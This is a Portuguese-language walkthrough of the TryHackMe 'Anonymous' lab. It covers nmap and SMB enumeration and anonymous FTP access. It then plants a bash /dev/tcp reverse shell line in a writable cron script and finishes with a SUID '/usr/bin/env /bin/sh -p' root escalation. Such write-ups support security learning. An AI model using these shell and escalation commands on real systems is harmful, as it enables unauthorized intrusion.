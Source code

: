 ```yaml
---
title: THM - Anonymous
author: guialvesf
date: 2022-03-24 01:00:00 -0300
categories: [tryhackme, writeup]
tags: [tryhackme, writeup]
image: "/img/thm/anonymous/anonymous.png"
alt: "tryhackme"
---
```



![banner](/img/thm/anonymous/anonymous.png) 
<hr>

# Questões
* Enumerate the machine.  How many ports are open?
* What service is running on port 21?
* What service is running on ports 139 and 445?
* There's a share on the user's computer.  What's it called?
<br>

Temos quatro questões antes de pegar as flags de User e Root, então vamos começar enumerando a máquina para responder a primeira.

[Anonymous room](https://tryhackme.com/room/anonymous)

# Enumeration

Começando com o scan padrão do Nmap (que eu uso geralmente) `nmap -sC -sV -oA nmap -v $IP`.
* sC - Default nmap scripts
* sV - Open ports services/version
* oA - Save output to 'nmap' file
* v  - Verbose mode

Isso já foi o suficiente para responder as três primeiras questões.

![nmap](/img/thm/anonymous/nmap.png)


Para a quarta questão precisaremos executar outro scan com o Nmap, e como podemos ver há um Samba sendo executado no sistema então precisaremos enumerá-lo. 
`nmap --script smb-enum-shares.nse -p 445,139 -v -oA smb $IP`

![smb](/img/thm/anonymous/smbNmap.png)

Pronto, além da quarta questão respondida podemos acessar esse samba.
`smbclient \\\\$IP\\pics`

![smbclient](/img/thm/anonymous/smbclient.png)

Nada de interessante aqui, porém o servidor FTP está acessível para login anônimo

![ftp](/img/thm/anonymous/ftpFiles.png)

E aqui temos 3 arquivos:
* clean.sh
* removed_files.log
* to_do.txt

Olhando o arquivo de log, presumo que o script `clean.sh` está sendo executado a cada X minutos, então podemos ler o código fonte para ver o que está acontecendo.

![cleansh](/img/thm/anonymous/cleanSh.png)

Tendo a permissão de escrita no arquivo podemos enviar uma linha de código que irá executar o bash, que nos enviará uma conexão 
`bash -c 'exec bash -i &>/dev/tcp/$IP/$PORT <&1'`

![shell](/img/thm/anonymous/shell.png)

Agora precisamos enviar a saída para dentro do arquivo `clean.sh` usando o `append`

![append](/img/thm/anonymous/append.png)

Usando o netcat preciso apenas esperar a conexão ser estabelecida.

![user](/img/thm/anonymous/user.png)

Flag de usuário encontrada, então vamos para a escalação de privilégios. Para fazer isso usei o linPEAS e na saída vi que posso preciso apenas executar um comando. `/usr/bin/env /bin/sh -p`

![root](/img/thm/anonymous/root.png)
